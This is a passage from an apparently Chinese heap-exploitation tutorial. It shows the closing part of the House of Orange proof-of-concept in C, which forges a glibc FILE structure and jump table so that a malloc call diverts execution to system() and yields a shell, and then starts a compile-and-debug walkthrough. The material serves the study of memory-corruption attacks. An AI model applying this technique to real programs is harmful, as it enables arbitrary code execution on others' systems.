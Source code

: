 ```bash
      1. Set mode to 0: fp->_mode <= 0
    */

    fp->_mode = 0; // top+0xc0


    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28


    /*
      4) Finally set the jump table to controlled memory and place system there.
      The jump table pointer is right after the FILE struct:
      base_address+sizeof(FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
    */

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8


    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

### 编译调试

#### 第一步：House of orange

首先申请了一块 chunk
